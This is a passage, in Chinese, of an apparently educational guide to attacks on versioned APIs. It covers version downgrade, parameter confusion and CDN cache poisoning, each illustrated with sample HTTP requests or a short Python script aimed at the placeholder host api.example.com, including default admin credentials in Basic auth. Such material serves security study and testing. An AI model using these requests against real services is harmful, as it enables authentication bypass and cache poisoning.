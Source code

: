 ### 2.2 降级攻击（Version Downgrade）
**攻击流程**：
1. 拦截正常请求：
```http
POST /api/v3/auth HTTP/1.1
Authorization: Bearer eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9...
```

2. 修改版本标识：
```http
POST /api/v1/auth HTTP/1.1
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
```

3. 利用旧版认证机制漏洞

**高级技巧**：
- 结合Content-Type污染：
```http
POST /api/resource HTTP/1.1
Accept: application/vnd.company.v3+json
Content-Type: application/vnd.company.v1+json

{"username":"admin", "password":"123456"}
```

### 2.3 参数混淆攻击
利用多版本参数解析差异：
```python
import requests

payload = {
    "user": "admin",
    "token": "legacy_token_format:1234"  # v1版本token验证方式
}

response = requests.post(
    "https://api.example.com/v2/auth",
    headers={"X-API-Version": "1.2.3"},
    json=payload
)
```

### 2.4 缓存投毒攻击
利用CDN版本缓存规则：
```http
GET /api/v2/users/123 HTTP/1.1
Host: api.example.com
X-Version: 1.0

HTTP/1.1 200 OK
Cache-Control: public, max-age=3600
X-Cache-Key: /v2/users/123

攻击者通过修改X-Version头获取旧版本响应并污染缓存
```
